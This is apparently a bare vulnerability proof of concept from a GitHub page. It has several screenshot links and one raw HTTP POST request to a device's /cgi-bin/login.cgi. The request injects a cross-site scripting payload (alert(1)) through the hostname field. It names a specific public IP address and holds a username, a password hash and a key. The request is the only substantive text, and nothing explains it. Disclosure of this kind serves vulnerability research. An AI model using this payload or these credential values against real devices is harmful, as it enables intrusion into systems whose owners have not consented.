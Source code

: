 # 

![image](https://user-images.githubusercontent.com/72059221/167049389-760be75c-6d84-45f6-a8aa-ff4e7e05241b.png)



![image](https://user-images.githubusercontent.com/72059221/167049403-82f98ff0-6774-4a6f-99f4-f712824c765b.png)



![image](https://user-images.githubusercontent.com/72059221/167049414-0eceb092-33b3-4bf6-93af-1e080c4fb314.png)


```
POST /cgi-bin/login.cgi HTTP/1.1 Host: 98.127.66.193 Content-Length: 255 Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 Origin: http://98.127.66.193 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 Referer: http://98.127.66.193/ Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Connection: close newUI=1&page=login&username=admin&langChange=0&ipaddr=171.113.240.243&login_page=login.shtml&homepage=main.shtml&sysinitpage=sysinit.shtml&hostname=")&lt;/&gt;&lt;&gt;alert(1)&lt;/&gt;&key=M27234733&password=63a36bceec2d3bba30d8611c323f4cda&lang_=cn
```



![image](https://user-images.githubusercontent.com/72059221/167049430-31952408-b40b-4263-a16f-41a3634540bf.png)


![image](https://user-images.githubusercontent.com/72059221/167049442-fc47e4a5-ec10-4feb-9488-70b86c07ec8c.png)



